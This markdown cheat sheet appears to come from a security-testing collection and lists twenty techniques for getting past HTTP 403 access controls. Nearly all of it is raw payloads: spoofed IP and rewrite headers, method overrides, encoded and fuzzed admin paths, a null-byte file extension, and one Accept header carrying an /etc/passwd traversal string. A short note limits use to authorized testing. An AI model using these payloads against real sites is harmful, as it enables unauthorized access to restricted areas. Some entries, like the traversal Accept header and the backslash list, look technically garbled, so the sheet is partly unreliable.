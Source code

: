 # HTTP 403 Forbidden Bypass Techniques

Below are various payloads and techniques to bypass 403 Forbidden errors. These methods attempt to circumvent access restrictions by manipulating requests in different ways.

## Basic Bypass Techniques

### 1. HTTP Method Override
```
GET /admin HTTP/1.1
Host: example.com
X-HTTP-Method-Override: POST

POST /admin HTTP/1.1
Host: example.com
X-HTTP-Method: GET
```

### 2. HTTP Header Manipulation
```
GET /admin HTTP/1.1
Host: example.com
X-Original-URL: /admin
X-Rewrite-URL: /admin
Referer: https://example.com/admin
```

### 3. Path Fuzzing
```
/admin/
/admin..;/
/admin.%2e/
/admin~/
/%61dmin/
/.admin
```

## Advanced Bypass Techniques

### 4. IP Spoofing Headers
```
GET /admin HTTP/1.1
Host: example.com
X-Forwarded-For: 127.0.0.1
X-Real-IP: 127.0.0.1
Client-IP: 127.0.0.1
```

### 5. Protocol Version Switching
```
GET /admin HTTP/2
Host: example.com

GET /admin HTTP/0.9
```

### 6. Unicode Normalization
```
/%c0%ae%c0%ae/admin
/%ef%bc%8fadmin
/%e2%81%afadmin
```

## Special Case Bypasses

### 7. Case Variation
```
/ADMIN
/aDmIn
/a%64min
```

### 8. Parameter Pollution
```
/admin?admin=true
/admin?redirect=/admin
/admin?access=1&bypass=1
```

### 9. File Extension Tricks
```
/admin.php
/admin.php.bak
/admin.php~
/admin.php/
/admin.php.txt
/admin.php%00.jpg
```

## Header-Based Bypasses

### 10. User-Agent Spoofing
```
GET /admin HTTP/1.1
Host: example.com
User-Agent: Googlebot
```

### 11. Accept Header Manipulation
```
GET /admin HTTP/1.1
Host: example.com
Accept: */*
Accept: ../../../../../../etc/passwd{{
```

### 12. Cookie Manipulation
```
GET /admin HTTP/1.1
Host: example.com
Cookie: admin=true; role=admin
```

## Nginx-Specific Bypasses

### 13. URL Encoding
```
/%2Fadmin
/admin%20
/admin%09
```

### 14. Multiple Slashes
```
////admin
/./admin
/./admin/.
```

## Apache-Specific Bypasses

### 15. Backslash Variation
```
/admin\
/admin/
/admin..\
```

### 16. Mixed Encoding
```
/a%25%32%66dmin
/a%252f%252fdmin
```

## IIS-Specific Bypasses

### 17. ASP Bypasses
```
/admin.asp
/admin.asa
/admin.cer
```

### 18. Short Filename
```
/admin~1/
/a*~1/
```

## Cloudflare Bypasses

### 19. Origin Header
```
GET /admin HTTP/1.1
Host: example.com
Origin: https://example.com
```

### 20. CF-Connecting-IP
```
GET /admin HTTP/1.1
Host: example.com
CF-Connecting-IP: 127.0.0.1
```

## Testing Methodology

1. Start with basic path variations
2. Try different HTTP methods (HEAD, POST, PUT)
3. Test various headers (X-Forwarded-For, Referer)
4. Attempt protocol version switching
5. Test Unicode normalization and encoding
6. Try different file extensions
7. Experiment with case variations
8. Test parameter pollution techniques

## Important Notes

- These techniques should only be used in authorized penetration testing engagements
- Many of these bypasses depend on specific server configurations
- Always respect robots.txt and security.txt files
- Document all testing with proper authorization

Remember that 403 bypass techniques are highly dependent on the specific web server configuration and application implementation. What works on one system may not work on another.